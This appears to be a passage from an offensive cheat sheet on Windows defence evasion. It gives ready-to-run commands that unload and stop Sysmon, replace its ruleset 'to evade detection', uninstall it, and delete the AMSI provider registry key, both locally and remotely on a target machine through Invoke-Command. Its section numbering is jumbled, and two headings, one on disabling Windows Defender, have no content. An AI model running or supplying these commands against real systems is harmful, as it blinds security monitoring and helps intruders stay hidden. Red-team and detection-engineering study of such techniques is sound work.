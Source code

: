 ## 04 - Sysinternals

### 4.1 - Sysmon

#### 4.1.1 - Disable

Get driver for Sysmon and disable it.

```
C:\> fltmc

C:\> fltmc unload SysmonDrv
```

Disable Sysmon service.

```
C:\> sc stop Sysmon64
```

Change configuration for sysmon to make it useless or reduce the ruleset to evade detection.

```
C:\> Sysmon64.exe -c sysmonconfig-export.xml
```

Change to default settings.

```
C:\> Sysmon64.exe -c --
```

#### 4.1.2 - Uninstall

Note: You must have administrative privileges

```
C:\> Sysmon64.exe -u
```

### 1.2.2 - Disable Windows Defender

## 05 - Disable AMSI

### 5.1 - Powershell

```
PS C:\> Remove-Item -Path "HKLM:\SOFTWARE\Microsoft\AMSI\Providers\{2781761E-28E0-4109-99FE-B9D127C57AFE}" -Recurse

PS C:\> icm -ComputerName <IP> -scriptblock {Remove-Item -Path "HKLM:\SOFTWARE\Microsoft\AMSI\Providers\{2781761E-28E0-4109-99FE-B9D127C57AFE}" -Recurse -Force}
```

#### 1.2.2.1 - Powershell
